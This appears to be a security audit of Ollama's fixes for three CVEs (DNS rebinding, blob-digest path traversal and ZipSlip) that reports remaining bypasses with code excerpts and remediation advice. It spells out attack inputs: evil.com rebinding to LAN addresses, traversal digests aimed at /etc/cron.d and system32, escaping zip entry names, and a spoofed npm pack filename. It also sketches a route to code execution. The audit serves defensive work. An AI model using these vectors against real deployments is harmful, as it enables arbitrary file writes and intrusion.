The fix wraps every gin route with `allowedHostsMiddleware(s.addr)` (`server/routes.go:1676-1679`). The middleware (`server/routes.go:1608-1644`):

1. Bypasses the check entirely if the listener address is **not** loopback (`!addr.Addr().IsLoopback()`). The intent is "only enforce host validation when bound to localhost, since other binds are presumed deliberate".
2. Splits `c.Request.Host` and:
   - Allows the request if the parsed Host is `IsLoopback() || IsPrivate() || IsUnspecified() || isLocalIP(addr)`.
   - Otherwise consults `allowedHost(host)` (`server/routes.go:1581-1606`), which lower-cases and accepts: empty, exact `localhost`, the OS hostname, or any suffix `.localhost`/`.local`/`.internal`.
   - Anything else returns `403 Forbidden`.

CORS middleware is registered **before** the host middleware (`r.Use(cors.New(corsConfig), allowedHostsMiddleware(s.addr))`). `corsConfig.AllowOrigins = envconfig.AllowedOrigins()` (default includes `http://localhost`, `http://127.0.0.1`, `http://0.0.0.0`, `app://*`, `file://*`, `tauri://*`, `vscode-webview://*`, `vscode-file://*`).

## 2. Bypass Verdict

**bypassable / relocated** - the original sink (DNS rebinding from a browser into `:11434`) is closed for the *default* loopback bind, but multiple structural gaps remain in the current codebase that re-open or relocate the same risk class.

## 3. Evidence - structural gaps observed at HEAD 57653b8e

### G1. (HIGH) `OLLAMA_HOST=0.0.0.0` (or any non-loopback bind) disables the entire defence
`server/routes.go:1615`
```go
if addr, err := netip.ParseAddrPort(addr.String()); err == nil && !addr.Addr().IsLoopback() {
    c.Next()
    return
}
```
The middleware short-circuits and accepts the request **without inspecting the Host header** if the listener is not loopback. The widely-used recommendation "expose ollama on the LAN" (`OLLAMA_HOST=0.0.0.0:11434`) therefore restores the pre-CVE behaviour completely. A user on the same LAN browsing the attacker's site can DNS-rebind `evil.com` to the host's LAN IP and reach the API. The CVE fix only protects the loopback-bind case.

This is also reachable via `OLLAMA_HOST=::` (any IPv6 unspecified) and any explicit LAN IPv4. There is no documentation in `docs/faq.mdx` warning that DNS-rebinding protection is silently disabled when binding non-loopback.

### G2. (HIGH) `IsPrivate()` in the host-side allow path is far too permissive
`server/routes.go:1626`
```go
if addr.IsLoopback() || addr.IsPrivate() || addr.IsUnspecified() || isLocalIP(addr) {
    c.Next()
    return
}
```
Once the listener-bypass in G1 is taken or you craft a bind we still want to defend, the per-request branch accepts a `Host` header whose IP is in **any RFC1918 / RFC4193 / link-local range** (Go's `netip.IsPrivate` returns true for `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `fc00::/7`). This means a public attacker page can rebind `evil.com` to e.g. `192.168.1.50` (the victim's machine) AND set the Host literally to `192.168.1.50`, and the middleware allows it.  Combined with `IsUnspecified()` it also accepts a Host of `0.0.0.0` or `::` directly.

`isLocalIP(addr)` (`server/routes.go:1560-1579`) further accepts ANY address that lives on a local interface, including the public IPv4/IPv6 of the host - so a server with a routable address on `eth0` will accept that address as a Host header from a rebinding browser.

### G3. (HIGH) `.local` / `.internal` / `.localhost` suffix accepted with no zone validation
`server/routes.go:1592-1603`
```go
tlds := []string{"localhost","local","internal"}
for _, tld := range tlds {
    if strings.HasSuffix(host, "."+tld) { return true }
}
```
There is no requirement that the suffix actually resolve to loopback. An attacker only has to:
- Buy / squat any domain whose CNAME tree ends with a label like `evil.local` (mDNS does not own `.local` strings sent via HTTP), or
- Use a public DNS A record `victim.localhost -> 1.2.3.4` (RFC 6761 reserves the *resolution*, not the Host header text), or
- Use `attacker.internal` (a label freely usable on public DNS).

The browser will happily honour the rebinding TTL because the CORS pre-flight is satisfied (`http://*.localhost` is in the wildcard allowlist by default via `corsConfig.AllowWildcard = true` together with the `localhost:*` origin templates in `envconfig/config.go:91-97`).  This collapses the defence to "user must run an attacker page that sets `document.domain` to `*.localhost` style" - trivially satisfied.

### G4. (MEDIUM) Empty Host header is treated as trusted
`server/routes.go:1584` -> `if host == "" || host == "localhost" { return true }`. RFC 7230 forbids empty Host on HTTP/1.1, but Go's `http.Server` will deliver requests where the Host header was supplied as empty (e.g. via HTTP/2 with empty `:authority` and empty Host, or via raw HTTP/1.0 which has no Host requirement). The fix should reject, not accept, an empty Host.

### G5. (MEDIUM) `os.Hostname()` exposure to spoofing
`server/routes.go:1588` accepts `c.Request.Host == strings.ToLower(os.Hostname())`. On macOS and Windows, the Bonjour / NetBIOS hostname is broadcast on the LAN, so an attacker on the same LAN trivially learns the value. With `corsConfig.AllowWildcard = true` and `OLLAMA_ORIGINS=*` (commonly recommended in `docs/faq.mdx`), a public web page can issue a request with `Host: <victim-hostname>` via DNS rebinding and reach the API.

### G6. (HIGH, condition: `OLLAMA_EXPERIMENT=client2`) `/api/pull` and `/api/delete` skip the gin middleware chain entirely
`server/routes.go:1735-1745` wraps the gin router as `Fallback` of `registry.Local`. `server/internal/registry/server.go:114-128`:
```go
switch r.URL.Path {
case "/api/delete": return false, s.handleDelete(rec, r)
case "/api/pull":  return false, s.handlePull(rec, r)
default:
    if s.Fallback != nil { s.Fallback.ServeHTTP(rec, r); ... }
}
```
When `OLLAMA_EXPERIMENT=client2` is set, `handleDelete` and `handlePull` are dispatched **before** the gin chain, meaning `allowedHostsMiddleware` never runs for those two endpoints. A rebinding attacker (or any cross-origin caller in the loopback-bind case) can `POST /api/pull` and `POST /api/delete` arbitrary models. This is a clean **relocation** of the original sink: the new client2 dispatcher reintroduces the unguarded path the 2024 patch closed.

### G7. (LOW/MEDIUM) HTTP/1.1 absolute-form request URI smuggles a different Host
`net/http` populates `r.Host` from the absolute-form request line (`POST http://victim.local/api/generate HTTP/1.1`). A browser cannot send absolute-form, but a forwarding proxy or a Service Worker that re-serializes can. If an upstream proxy forwards an absolute-form URI authoritatively, the Host header of the original socket peer is replaced. Because the middleware reads `c.Request.Host` (which Go sets from the absolute URI when present, *overriding* any Host header), an attacker controlling a same-origin Service Worker can mint a `Host: localhost` value while the underlying request originated from `evil.com`. Combined with G3 / G4 this widens the attack surface.

### G8. (INFO) HTTP/2 `:authority` handling
Go's HTTP/2 server copies `:authority` into `r.Host`. This is fine for the check itself, but `gin-contrib/cors v1.7.2` performs an additional Origin/Allow-Origin handshake before the host middleware runs, which means a CORS preflight (`OPTIONS`) carrying an `Origin: http://evil.com` and `Host: localhost` will receive `Access-Control-Allow-Origin: http://evil.com` only if `evil.com` is in `OLLAMA_ORIGINS`. With the heavily-suggested `OLLAMA_ORIGINS=*` (see `app/server/server.go:231` and `docs/faq.mdx:222-228`), every Origin is reflected. In rebinding attacks the Origin is irrelevant (rebinding works because the *browser* trusts the cross-origin write to "the same IP"), but the broad CORS posture reduces the cost of follow-on credential theft.

### G9. (INFO) WebSocket / SSE
SSE responses are `text/event-stream` from `s.GenerateHandler` / `s.ChatHandler` and ride the same gin chain - they ARE host-checked. There is no native WebSocket route in the current handler set, so no WS bypass exists.

### G10. (INFO) Unix-socket / gRPC
The server only binds TCP via `net.Listen("tcp", envconfig.Host().Host)` (`cmd/cmd.go:1827`). No unix-socket or gRPC listener exists, so no parallel ungated transport is exposed.

### G11. (INFO) IPv6 zone-ID / bracket-handling drift
`net.SplitHostPort` strips brackets, but `net/netip.ParseAddr` rejects zone IDs (`fe80::1%lo0`). `c.Request.Host = "[::1%25lo0]:11434"` therefore falls through `netip.ParseAddr` failure and is fed into `allowedHost` as `[::1%lo0]`, which fails all `HasSuffix` and equality checks - returning **403** (sound, no bypass). However `[::1]` directly is rejected too (lowercase compare to `localhost` fails), which is a legitimate value the patch *should* accept; not a security bug, but a usability regression worth flagging.

## 4. Summary table

| Vector                                  | Result        | Severity |
|-----------------------------------------|---------------|----------|
| Listener bind != loopback (G1)          | bypass        | HIGH     |
| `IsPrivate()` accepts RFC1918 Host (G2) | bypass        | HIGH     |
| `.local` / `.localhost` suffix (G3)     | bypass        | HIGH     |
| Empty Host accepted (G4)                | bypass        | MEDIUM   |
| `os.Hostname()` LAN-spoof (G5)          | bypass        | MEDIUM   |
| client2 `/api/pull,/api/delete` (G6)    | relocated     | HIGH (gated by env) |
| Absolute-form URI (G7)                  | partial       | LOW      |
| HTTP/2 `:authority`                     | sound         | -        |
| WebSocket / SSE                         | sound         | -        |
| Unix-socket / gRPC                      | n/a           | -        |
| IPv6 zone-ID                            | sound (rejects) | -      |

## 5. Undisclosed-fix tag

Not applicable - this is a known-CVE follow-up audit.

## 6. Recommended remediation

1. Remove the listener-bypass in `allowedHostsMiddleware` (`routes.go:1615`); always enforce Host validation regardless of bind address. The check is cheap and there is no legitimate reason to skip it because the operator chose `0.0.0.0`.
2. Drop `IsPrivate()` from the per-request allow set; if the user wants LAN access, they should add an explicit hostname/IP via a new `OLLAMA_ALLOWED_HOSTS` env var rather than getting all RFC1918 by default.
3. Replace the suffix match on `.local` / `.internal` / `.localhost` with an exact-match allowlist (or require the resolved IP to be loopback). Suffix match is the textbook DNS-rebinding hole.
4. Reject empty Host (`host == ""`).
5. Move `allowedHostsMiddleware` to wrap `registry.Local.ServeHTTP` (or attach it to the outer `http.Handler` in `Serve`), so that `client2`-dispatched `/api/pull` / `/api/delete` are also covered.
6. Add a `routes_test.go` matrix exercising: empty Host, `0.0.0.0`, `192.168.x.x`, `evil.localhost`, `evil.local`, `evil.internal`, IPv6 zone IDs, absolute-form request URI, and the `client2`-on configuration.

## 7. File / line references

- `server/routes.go:1560-1579` - `isLocalIP`
- `server/routes.go:1581-1606` - `allowedHost`
- `server/routes.go:1608-1644` - `allowedHostsMiddleware`
- `server/routes.go:1646-1679` - middleware chain registration (`cors` -> `allowedHosts`)
- `server/routes.go:1735-1745` - `registry.Local` wrapping (client2 path)
- `server/internal/registry/server.go:109-128` - bypass dispatcher for `/api/pull`, `/api/delete`
- `envconfig/config.go:20-83` - `Host()` / `ConnectableHost()`
- `envconfig/config.go:85-109` - `AllowedOrigins()` defaults
- `cmd/cmd.go:1822-1838` - `RunServer` -> `net.Listen("tcp", envconfig.Host().Host)`
- `app/server/server.go:231` - default `OLLAMA_ORIGINS=*` for app launches
- `docs/faq.mdx:222-228` - encouragement to broaden `OLLAMA_ORIGINS`

---

# CVE-2024-37032 ("Probllama") — Path Traversal Bypass Analysis

- **Repository**: ollama/ollama
- **HEAD inspected**: 57653b8e
- **Original fix commit**: 2a21363b ("validate the format of the digest when getting the model path", 2024-05-05, PR #4175, shipped in v0.1.34)
- **Cluster ID**: cve-2024-37032
- **Type**: known-CVE-fix

## Patch Summary

The original fix added a regex check inside `server/modelpath.go::GetBlobsPath`:

```go
pattern := "^sha256[:-][0-9a-fA-F]{64}$"
re := regexp.MustCompile(pattern)
if digest != "" && !re.MatchString(digest) {
    return "", ErrInvalidDigestFormat
}
```

In the current tree the same logic has been hoisted into `manifest/paths.go::BlobsPath`
(`/Users/bytedance/Desktop/demo/ollama/manifest/paths.go:40-61`). Identifier sanitization for the model
*name* (host/namespace/model/tag) is enforced separately by
`types/model/name.go::isValidPart` (`/Users/bytedance/Desktop/demo/ollama/types/model/name.go:344-369`),
which restricts each component to `[A-Za-z0-9_]` plus a small whitelist of separators
and rejects `..`, `/`, `\`, `%`, fullwidth Unicode, etc.

All "main" ingest call sites funnel through `manifest.BlobsPath`:

- `server/download.go:473` (`downloadBlob`) — legacy LLM pull
- `server/upload.go:56,133` — push
- `server/images.go:317,334,1031` (`GetModel`, `verifyBlob`)
- `server/routes.go:1494,1510,1528` — `HEAD/POST /api/blobs/:digest`
- `server/create.go:147,370,422,623,665,777` — `POST /api/create`
- `manifest/layer.go:25-101` (`NewLayer`, `NewLayerFromLayer`, `Open`, `Remove`)

## Bypass Verdict

**bypassable** — a new fast-path for tensor models (added long after the CVE fix) reintroduces the
identical vulnerability for any pulled model whose manifest contains at least one layer with
mediaType `application/vnd.ollama.image.tensor`.

## Evidence

### 1. `pullWithTransfer` skips `manifest.BlobsPath` for every layer

`server/images.go:721-793`:

```go
func pullWithTransfer(ctx context.Context, n model.Name, layers []manifest.Layer, ...) error {
    blobs := make([]transfer.Blob, len(layers))
    for i, layer := range layers {
        blobs[i] = transfer.Blob{
            Digest: layer.Digest,         // <-- attacker-controlled, never validated
            Size:   layer.Size,
        }
    }

    destDir, err := manifest.BlobsPath("")  // BlobsPath("") only returns the dir, no digest check
    ...
    transfer.Download(ctx, transfer.DownloadOptions{
        Blobs:   blobs,
        DestDir: destDir,
        ...
    })
}
```

The dispatch is gated by `hasTensorLayers` (`server/images.go:710-718`), which simply checks whether
*any* layer carries `MediaTypeImageTensor = "application/vnd.ollama.image.tensor"`. An attacker who
controls a registry the victim pulls from only needs to attach a single dummy tensor layer to flip
the entire pull onto this code path; the *other* layers in the same manifest can carry arbitrary
digest strings.

### 2. `transfer.Download` writes blob files using the raw digest

`x/imagegen/transfer/transfer.go:164-170`:

```go
func digestToPath(digest string) string {
    if len(digest) > 7 && digest[6] == ':' {
        return digest[:6] + "-" + digest[7:]
    }
    return digest
}
```

There is no allowlist regex, no `filepath.Clean`, no `filepath.IsLocal`, no length check. A digest of
`"sha256:../../../tmp/pwn"` becomes `"sha256-../../../tmp/pwn"`, which `filepath.Join(destDir, …)`
happily resolves to a path outside `<OLLAMA_MODELS>/blobs/`. A digest of `"../../etc/cron.d/evil"`
(no colon at index 6) is returned verbatim and joined.

`x/imagegen/transfer/download.go:212-267::save` then performs:

```go
dest := filepath.Join(d.destDir, digestToPath(blob.Digest))
tmp := dest + ".tmp"
os.MkdirAll(filepath.Dir(dest), 0o755)   // creates attacker-chosen directories
...
f, err = os.Create(tmp)                  // creates attacker-chosen file
...
if got := fmt.Sprintf("sha256:%x", h.Sum(nil)); got != blob.Digest {
    os.Remove(tmp)                       // only removed if digest happens to match
    return ..., fmt.Errorf("digest mismatch")
}
totalWritten := existingSize + n
...
return totalWritten, os.Rename(tmp, dest)
```

### 3. Persistence of the attacker-chosen file

`x/imagegen/transfer/download.go:131-137`:

```go
d.progress.add(-n) // rollback
if blob.Size < resumeThreshold {            // resumeThreshold = 64 << 20 = 64 MiB
    dest := filepath.Join(d.destDir, digestToPath(blob.Digest))
    os.Remove(dest + ".tmp")
}
```

For any layer whose advertised `size >= 64 MiB`, the `.tmp` file at the attacker-chosen path is
**preserved on failure** for "resume". Therefore an attacker can:

1. Trigger the pull (CSRF on `POST /api/pull`, or any user-initiated pull from a malicious mirror).
2. Force `pullWithTransfer` by including a tiny well-formed tensor layer.
3. For the malicious entry (config layer or a sibling layer), advertise `size >= 64 MiB` and a
   `digest` such as `"sha256:../../../etc/cron.d/0pwn"` (or with no `sha256:` prefix at all), then
   stream attacker chosen bytes from the registry.

Result on disk: `<OLLAMA_MODELS>/blobs/sha256-../../../etc/cron.d/0pwn.tmp` ≡
`/etc/cron.d/0pwn.tmp` (path normalised by the kernel) populated with attacker bytes. Any
intermediate directories are created with mode `0o755`.

The hash check at the end will fail because `got = "sha256:<hex>"` cannot equal a path-traversal
string, so the final `os.Rename(tmp, dest)` does *not* run — but the partial `.tmp` file remains.
On Linux many drop-in directories tolerate any filename suffix (e.g. `/etc/profile.d/` reads
`*.sh` only, but `/var/spool/cron/crontabs/<user>` doesn't care; many web roots will serve
`.tmp` files). On systems where the attacker can choose a directory whose readers ignore the
suffix (or where the attacker stages a follow-up `MOVE`), this becomes RCE; otherwise it is at
minimum arbitrary file write / arbitrary directory creation as the ollama service user.

### 4. Negative-size and zero-size variants

There is no validation that `blob.Size >= 0`. `os.Create(tmp)` is invoked unconditionally before
any download attempt (line 242). Even for `size == 0` blobs the empty `.tmp` file is left behind
when an unrelated sibling download fails (`g, ctx := errgroup.WithContext(ctx)` cancels siblings).

### 5. Equivalent gap in the silent x/imagegen surface

`x/imagegen/manifest/manifest.go:100-105` exposes a sibling `BlobPath(digest)` helper used by
`x/mlxrunner/model/root.go:48`, `x/mlxrunner/runner.go:103`, and `x/imagegen/manifest/weights.go:80`
that performs the same naive `strings.Replace(digest, ":", "-", 1)` with no validation:

```go
func (m *ModelManifest) BlobPath(digest string) string {
    blobName := strings.Replace(digest, ":", "-", 1)
    return filepath.Join(m.BlobDir, blobName)
}
```

These are read-side callers (`os.Open`, `os.ReadFile`), so they are arbitrary file read primitives
(read any file the ollama user can read) when fed a manifest that has been planted via the write
primitive above, or via a manifest crafted directly by an attacker who can `POST /api/create` with
a malicious raw manifest.

`x/imagegen/manifest/manifest.go:71-98::resolveManifestPath` and the duplicate at
`x/create/create.go:51-75::resolveManifestPath` also build paths from `modelName` with no
sanitization (only `strings.Split(name, "/")` — `..` is a valid segment). These are reachable from
`x/imagegen/server.go:70`, `x/imagegen/memory.go:46,57`, `x/imagegen/imagegen.go:29`,
`x/imagegen/models/flux2/flux2.go:62`, `x/imagegen/models/zimage/zimage.go:59`,
`x/mlxrunner/client.go:116`, and `x/mlxrunner/model/root.go:37`. They take their `modelName`
input from places that may or may not have run the `model.ParseName` validator first; any caller
that passes a raw user string here gets directory-traversal manifest reads (`/etc/passwd`,
SSH private keys, etc.).

### 6. Negative tests proving the gap is real

The transfer package's own tests confirm there is no validation:

- `x/imagegen/transfer/transfer_test.go:724` (`TestDigestToPath`) only tests `sha256:abc → sha256-abc`.
- `x/imagegen/transfer/transfer_test.go:364` (`TestDownloadDigestMismatch`) uses a well-formed
  `sha256:00…00` digest; no traversal corpus exists.

Compare with `manifest/paths_test.go` (the heir of the original `modelpath_test.go`) which still
tests `"../sha256-…"` is rejected — but only against `BlobsPath`, which `pullWithTransfer` bypasses.

## Bypass Vector Matrix

| Vector | Result |
|--------|--------|
| Alternate entry point | **YES** — `pullWithTransfer` (server/images.go:633) bypasses `manifest.BlobsPath` for layer digests; same for `pushWithTransfer` reading via `digestToPath` |
| Config-gated check | n/a — the new path is automatic when any tensor layer is present |
| Default-state gap | **YES** — any registry can flip the dispatch by attaching a tensor layer |
| Compatibility branch | **YES** — legacy LLM pull still validates; new tensor pull does not |
| Parser differential | **YES** — `manifest.BlobsPath` regex vs `digestToPath` raw `strings.Replace` |
| Missing normalization | **YES** — no `filepath.Clean`, no `filepath.IsLocal`, no `\` rejection |
| URL/Unicode encoding | not relevant (raw bytes from JSON manifest) |
| Windows `\` in digest | **YES** — `digestToPath` accepts `sha256:..\..\foo`; `filepath.Join` honours `\` on Windows; the original regex `[0-9a-fA-F]` would have rejected this if applied |
| Sibling resources | **YES** — `x/imagegen/manifest/BlobPath`, `x/create/create.go::resolveManifestPath`, `x/imagegen/manifest/resolveManifestPath` all reintroduce the original class of bug |

## Recommended Remediation

1. Inside `pullWithTransfer` (server/images.go:721) call `manifest.BlobsPath(layer.Digest)` (or
   `cache/blob.ParseDigest`) for every `layer` *before* building `[]transfer.Blob`, and abort on
   `ErrInvalidDigestFormat`. Same for `pushWithTransfer`.
2. Inside `x/imagegen/transfer/transfer.go::digestToPath`, perform the regex/parse check itself and
   return an error type rather than silently echoing untrusted input. Have callers in `download.go`
   and `upload.go` honour the error.
3. Add `filepath.IsLocal` (Go 1.20+) or an explicit "no `..`, no separator" check on the *output*
   of `digestToPath` as defense in depth.
4. Replace `x/imagegen/manifest/manifest.go::BlobPath` and the two `resolveManifestPath` copies in
   `x/imagegen/manifest/manifest.go:71` and `x/create/create.go:52` with calls to
   `manifest.BlobsPath` / `manifest.PathForName` so there is one validated implementation.
5. Add bypass corpus to `x/imagegen/transfer/transfer_test.go`:
   `"sha256:../../../etc/passwd"`, `"../../etc/passwd"`, `"sha256:" + strings.Repeat("a",65)`,
   `"sha256:..\\..\\windows\\system32\\drivers\\etc\\hosts"`, `"SHA256:" + valid` (case-insensitive
   prefix not currently enforced), `""`, `"sha256:"`.

## Notes on Things That Are Sound

- `manifest.BlobsPath` itself is unchanged and still correct: regex is anchored, length is exact,
  rejects all separators and Unicode.
- `model.Name.IsFullyQualified` / `isValidPart` correctly sanitize host/namespace/model/tag, so the
  manifest *file path* (as opposed to blob paths) is still safe via the documented APIs.
- `verifyBlob` and `downloadBlob` (legacy non-tensor pull) still go through `manifest.BlobsPath`.
- `server/routes.go::HeadBlobHandler` and `CreateBlobHandler` validate via `manifest.BlobsPath`.

---

# CVE-2024-45436 — ZipSlip in Ollama model creation

- **Cluster ID**: archive-extraction-zipslip
- **Original fix commit**: `b7ce14c7` (PR #5314, 2024-06-26) — `zip: prevent extracting files into parent dirs`
- **Fix landed in**: v0.1.47
- **Verdict on original fix at HEAD (57653b8e)**: **superseded — vulnerable code path removed entirely**
- **Verdict on related current archive-extraction code**: **bypassable / partially-sound**

---

## 1. Original Fix Summary (server/model.go)

The original fix (`b7ce14c7`) added a check inside `extractFromZipFile`:

```go
n := filepath.Join(p, f.Name)
if !strings.HasPrefix(n, p) {
    slog.Warn("skipped extracting file outside of context", "name", f.Name)
    continue
}
```

This check is the textbook "weak prefix" anti-pattern (vulnerable to e.g. `p="/tmp/abc"`,
`n="/tmp/abcd/evil"` would pass `HasPrefix`), but in practice `p` came from
`os.MkdirTemp` so the destination dir name had a fixed shape and the bypass surface
was limited. The unit test only covered a multi-`../` payload, not adjacent-prefix tricks
(`tempdir`+`tempdir-evil`).

## 2. Current State at HEAD

`grep -rn 'archive/zip|archive/tar' /Users/bytedance/Desktop/demo/ollama` returns
**only** `app/updater/updater_*.go`. The `extractFromZipFile`, `parseFromZipFile`,
and `tempZipFiles` functions have been **deleted**. Model creation now uses a
JSON `Files` map of digests — see `server/create.go:68` (`fs.ValidPath`) and
`server/create.go:407` (`os.OpenRoot`/`root.Stat` containment check) for
`convertFromSafetensors`. This is correct hardening: there is no longer a ZIP
extraction step in the model-create path.

The original CVE-2024-45436 sink **no longer exists**.

## 3. New ZipSlip-Class Issues Introduced Elsewhere (RELOCATED)

### 3.1 `app/updater/updater_darwin.go::DoUpgrade` — file extraction (lines 162-209)

**Bypass verdict: bypassable (path traversal + arbitrary write inside Ollama.app)**

```go
for _, f := range r.File {
    s := strings.SplitN(f.Name, "/", 2)
    if len(s) < 2 || s[1] == "" { continue }
    name := s[1]
    ...
    destName := filepath.Join(BundlePath, name)  // NO containment check
    ...
    destFile, err := os.OpenFile(destName, os.O_WRONLY|os.O_CREATE|os.O_TRUNC, 0o755)
    io.Copy(destFile, src)
}
```

Problems:
- **No `..` validation on `f.Name` for regular files.** A malicious zip with
  entry `Ollama.app/../../../../../../tmp/pwned` produces
  `name = "../../../../../tmp/pwned"`, `destName = filepath.Join(BundlePath, name)`
  which `Clean`s out of `BundlePath`. There is **no `filepath.Rel` /
  `strings.HasPrefix` / `os.OpenRoot`** check before the `os.OpenFile`.
- The "`SplitN`-by-`/`" merely strips the first component. An entry beginning with
  e.g. `Ollama.app/../../../etc/something` is happily reduced to `../../../etc/something`.
- Files are written with mode `0o755` (executable). On systems where the user
  runs the updater with elevated rights (chownWithAuthorization path), this is
  arbitrary file write as the authenticated user.

### 3.2 `app/updater/updater_darwin.go::verifyDownload` — extraction during signature verify (lines 282-318)

**Bypass verdict: bypassable (same class)**

```go
destName := filepath.Join(dir, f.Name)  // dir = os.MkdirTemp("", "ollama_update_verify")
...
destFile, err := os.OpenFile(destName, os.O_WRONLY|os.O_CREATE|os.O_TRUNC, 0o755)
```

Even though `dir` is a fresh tempdir, the code does **no path-containment check**
on `f.Name` before extraction. A `Ollama.app/../../../tmp/pwn` entry escapes
`dir`. Because `verifyDownload` runs **before** `DoUpgrade` (and is also called
at startup in `DoUpgradeAtStartup`, `DoUpgrade(false)`), this is the **first**
sink hit when an update zip arrives.

### 3.3 Symlink handling (lines 210-241 and 319-338)

**Bypass verdict: partially-sound but contains a parser differential**

The link check is:
```go
if link[0] == '/' { ...absolute... }
if strings.HasPrefix(filepath.Join(filepath.Dir(name), link), "..") { ... }
```

Issues:
- `link[0]` will **panic on an empty symlink target** (`index out of range`).
  No length check. Crash → DoS, but not a bypass per se.
- `filepath.Join(filepath.Dir(name), link)` is `Clean`ed, so something like
  `link = "subdir/../../../etc/passwd"` from a deeply-nested entry can still
  resolve to a path that does **not** start with `..` once joined with
  `filepath.Dir(name)`. Example: entry name
  `Ollama.app/Contents/Resources/a/b/c/sym` with `link = "../../../etc/passwd"`
  yields `filepath.Join("Contents/Resources/a/b/c", "../../../etc/passwd")` =
  `"Contents/etc/passwd"` — passes `!HasPrefix("..")` but is **outside the
  `Contents/` tree's intended subdirs** (still inside `Contents`, but creates a
  symlink at any path inside `Contents/`).
- More importantly, `os.Symlink(link, filepath.Join(BundlePath, name))` is
  called **without** validating that `name` itself is contained — the file
  loop above had no check, and the symlink loop also doesn't re-check `name`
  (only the link target is checked). A `name` like
  `Ollama.app/../../../tmp/sym` would create a symlink **outside the bundle
  pointing to anywhere inside the bundle** (because `link` is "../something"
  but joined relative to `dir` — see test case "missing").
- The `links` are extracted **after** all regular files. A maliciously crafted
  zip can exploit a TOCTOU between the regular-file write (which can clobber
  arbitrary paths) and the symlink follow on the next extraction (since
  `os.OpenFile(... O_TRUNC)` follows existing symlinks). Net effect: **first
  pass writes a symlink at a known bundle path; second pass writes through
  it**. Even simpler: include a symlink as a regular extracted file (`f.Mode()
  & os.ModeSymlink == 0` lying about its mode in central directory but not in
  local header) — Go's `archive/zip` reads the local-header mode for `f.Open()`
  but uses central-directory mode for `f.Mode()`. Parser differential possible.

### 3.4 No mount/disk validation, no size limits (zip-bomb)

- No `Content-Length` cap on extracted files (`io.Copy` unbounded). Disk-fill DoS.
- No total-extraction-size cap. Zip-bomb / quine-bomb.
- No file-count cap. Inode exhaustion.
- No same-mount validation; symlinks could be created to other filesystems.

### 3.5 Authentication-only mitigation

The threat model **does** require either (a) compromise of `update.json`
distribution endpoint (currently `https://github.com/ollama/ollama` releases via
HTTPS — TOFU on first download, then signature verification is supposed to
catch tampering), or (b) MITM of the download. Note that
`verifyDownload` does the signature check **after extraction** (line 340:
`verifyExtractedBundle`). So the path-traversal sink at 3.2 fires **before any
signature verification** — the attacker only needs to feed a malicious zip via
the `update.json` channel; the signature gate is irrelevant.

---

## 4. `cmd/launch/openclaw.go::ensureWebSearchPlugin` — tar extraction (lines 770-789)

**Bypass verdict: bypassable in adversarial-registry scenario**

```go
pack := exec.Command(npmBin, "pack", webSearchNpmPackage, "--pack-destination", pluginDir)
...
tar := exec.Command("tar", "xzf", tgzPath, "--strip-components=1", "-C", pluginDir)
```

- `--strip-components=1` strips one leading component but **does not** prevent
  `..` path components in remaining segments.
- `tar` itself rejects `..` traversal in modern GNU `tar`/BSD `tar` by default
  (since GNU tar 1.32: refuses `../` names unless `-P`), but this is
  implementation-dependent. If `/usr/bin/tar` is BusyBox (Alpine container),
  ZipSlip-equivalent (`TarSlip`) is possible.
- `pack.Output()` returns the filename printed by `npm pack` to stdout. **The
  filename is not validated**. A malicious npm registry response could produce
  a filename like `../../../../etc/cron.d/foo.tgz`, then `tgzPath =
  filepath.Join(pluginDir, tgzName)` resolves out of `pluginDir`. The
  subsequent `tar xzf tgzPath` reads from that arbitrary path. Combined with
  `os.Remove(tgzPath)` deferred, this is **arbitrary-file-delete primitive**
  (and arbitrary-file-read into the tar tool, which then tries to extract it).
- The entire flow is gated on the user installing the OpenClaw integration
  (`ensureOpenclawInstalled`), but **no signature/integrity check** is applied
  to the npm tarball. Compromise of the
  `@ollama/openclaw-web-search` npm package = code execution next time the
  user runs `ollama launch openclaw`.

---

## 5. Other extraction sinks searched (negative results)

- `safetensors` (`x/safetensors/extractor.go`): tensor-data extractor only,
  no filesystem path written from input. Sound.
- HuggingFace pulls: no zip/tar extraction in the create path. Files are
  pre-resolved to digests by the client and passed via a JSON `Files` map.
  See `server/create.go:407`.
- GGUF "bundle"/"package" formats: no archive container — single binary file
  parsed by `fs/ggml`. No path extraction.
- `convertFromSafetensors` uses `os.OpenRoot` + `fs.ValidPath` for containment.
  This is the **correct** modern Go idiom. Sound.

---

## 6. Bypass Vectors Summary

| Vector | Coverage in current code | Notes |
|--------|-------------------------|-------|
| Alternate entry points | **Found 3**: `DoUpgrade`, `verifyDownload`, `ensureWebSearchPlugin` | Original sink is gone; new sinks introduced |
| `..` containment in regular files | **Missing in updater zip extraction** | No `filepath.Rel`/`HasPrefix`/`OpenRoot` check |
| Symlink target validation | Present but weak (`HasPrefix("..")` on cleaned path) | Crash on empty link, parser differential |
| Symlink **name** validation | **Missing** | Allows symlink creation outside bundle |
| Absolute paths | Detected only for symlink **target**, not entry **name** | Bypassable |
| `..\` (Windows backslash) | Updater is darwin-only; N/A | Windows updater shells out to .exe, no extraction |
| Encoded `..` (`%2e%2e`, UTF-8 overlong) | N/A — Go `archive/zip` does not URL-decode | Sound |
| Case differential (HFS+ default-sensitive) | Not validated | Could overwrite `Resources/Ollama` vs `resources/ollama` on case-insensitive FS |
| Long filename truncation | Not validated; relies on FS | Low severity |
| Same-mount validation | **Missing** | symlink to other fs allowed |
| Unicode normalization (NFC vs NFD) | **Missing** | macOS HFS+ normalizes to NFD; can produce divergent paths |
| Zip comment / extra-fields used as paths | Not used | Sound |
| Size/count limits | **Missing** | DoS |
| Signature verify ordering | **Extraction happens before verify** | Defeats signature mitigation |

## 7. Recommendations

For `app/updater/updater_darwin.go` (both `DoUpgrade` and `verifyDownload`):

1. Replace `filepath.Join` + write with `os.OpenInRoot(root, name)` (Go 1.24+),
   or pre-validate via `filepath.Rel(BundlePath, destName)` rejecting any
   result that starts with `..`.
2. Add an explicit denylist for entries containing `..` segments after `path.Clean`.
3. Validate the symlink **entry name** (not just target) the same way.
4. Guard `link[0]` with `len(link) > 0`.
5. Cap per-file and total extraction size; cap entry count.
6. Run `verifyExtractedBundle` (signature check) **before** writing into the
   real `BundlePath` (currently only `verifyDownload` uses a tempdir; `DoUpgrade`
   writes straight into the live bundle).

For `cmd/launch/openclaw.go::ensureWebSearchPlugin`:

1. Validate the `npm pack` output filename with `filepath.Base` and reject
   anything containing `/` or `..`.
2. Pin the package by integrity hash, not just name.
3. Use Go's `archive/tar` with `os.OpenInRoot` instead of shelling out to
   `tar`, which has implementation-dependent `..` handling.

---

## 8. Closing Note

